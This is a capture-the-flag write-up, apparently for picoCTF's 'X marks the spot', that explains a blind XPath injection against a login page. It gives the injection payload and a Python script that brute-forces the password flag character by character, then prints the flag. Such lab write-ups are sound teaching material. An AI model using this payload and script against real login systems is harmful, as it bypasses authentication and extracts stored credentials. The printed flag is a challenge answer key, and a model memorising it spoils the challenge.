


## X marks the spot  



We are given a webpage with a simple login UI.  



The challenge name and hint both suggest that this is an XPath injection challenge.  

We can deduce the structures for the username and password queries.  

```
//<username node>[username/text()='<username>'] or //<password node>[password/text()='<password>']
```

The website only displays either `You're on the right path` or `Login failure` to signal whether our query evaluated as `true` or `false`, meaning this is a blind injection.  

Based on the display text, the password is most likely the flag. We can verify this by sending this payload in the `password` field, which will give the success message.  

```
' or //pass[starts-with(.,'pico')] or '1'='2
```

We can write a simple script to bruteforce every successive position in the flag character by character.  

```python
import requests
import string

url = "http://wily-courier.picoctf.net:49434/"

charset = string.ascii_lowercase + string.digits + "{}_" + string.ascii_uppercase

flag = "picoCTF{"

while not flag.endswith("}"):
    for char in charset:
        print("Trying:", char, "|",  flag)

        res = requests.post(f"{url}", data={
            'name': "",
            'pass': f"' or //pass[starts-with(., '{flag}{char}')] or '1'='2"
        })

        if "right path" in res.text.lower():
            flag +=char
            break
        elif "failure" not in res.text.lower():
            print(res.text)

print("Flag:", flag)
```

Flag: `picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_e55b14f6}`